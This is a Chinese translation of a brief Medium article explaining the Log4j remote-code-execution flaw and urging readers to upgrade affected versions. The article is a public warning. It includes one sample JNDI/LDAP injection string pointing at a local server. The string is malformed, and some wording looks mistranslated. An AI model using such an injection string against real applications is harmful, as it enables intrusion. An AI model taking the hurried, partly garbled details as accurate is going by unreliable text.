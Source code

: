 # Log4j 漏洞，每个 Java 应用都是远程代码执行的后门

> 原文：<https://medium.com/codex/the-log4j-vulnerability-every-java-app-is-a-backdoor-for-remote-code-execution-90fba9a515fb?source=collection_archive---------1----------------------->

![](img/18aa10d97e5bd51d8238075973f8e5da.png)

穆罕默德·拉赫马尼在 [Unsplash](https://unsplash.com?utm_source=medium&utm_medium=referral) 上的照片

Java 是一种编程语言，不仅用于 Steam 和 Spotify 等应用程序，还用于亚马逊、微软、Cloudflare 等公司的有害系统。

这个新漏洞影响了由 apache 创建的广泛使用的库 Log4j。Log4j 漏洞允许通过在文本框中键入特定字符串来远程执行代码。它最初是由《我的世界》玩家发现的，但很快人们意识到这个漏洞不仅仅是《我的世界》利用的，它对使用 Log4j 库的每个程序都有效。

为了解释这种远程代码执行攻击有多简单，请将它输入到运行 log4j 的 java 应用程序中

```
$(jndi:ldap://127.0.0.1:1389/Basic/Command/start [www.google.com)](http://www.google.com))
```

幸运的是，这个 bug 并不影响 Log4j 的所有版本，它只影响 2.0 和 2.14.1 之间的版本，所以如果您有任何正在运行的版本，那么现在就切换版本。

这是我们在过去 10 年中遇到的最严重的漏洞之一，这只是一篇非常简单的表面文章。如果你正在运行 Log4j，我建议你暂时关闭应用程序，深入研究如何修复漏洞。如果你喜欢这篇文章，请留下你的赞，并在回复中留下你的反馈，非常感谢。我匆忙写了这篇文章，因为我认为让尽可能多的人知道这一点很重要，所以可能会有一些错误。